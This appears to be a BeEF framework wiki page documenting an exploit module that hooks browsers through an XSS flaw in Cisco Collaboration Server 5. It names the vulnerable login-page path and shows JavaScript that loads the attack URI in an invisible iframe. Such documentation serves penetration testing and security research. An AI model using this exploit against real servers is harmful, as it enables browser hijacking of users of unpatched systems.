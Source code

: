 ## Summary

* **Objective**: hook Cisco Collaboration Server 5 using XSS
* **Authors**: bcoles, s4squatch
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/xss/cisco_collaboration_server_5_xss)

## Internal Working

Use an invisible iframe to exploit XSS in Cisco Collaboration Server 5.

Vulnerable path is `http://target/webline/html/admin/wcs/LoginPage.jhtml?oper=&dest=`

```js
var uri = beef.encode.base64.decode('<%= Base64.strict_encode64(@uri) %>');

var cisco_collaboration_iframe = beef.dom.createInvisibleIframe();
cisco_collaboration_iframe.setAttribute('src', uri);
```

## Feedback

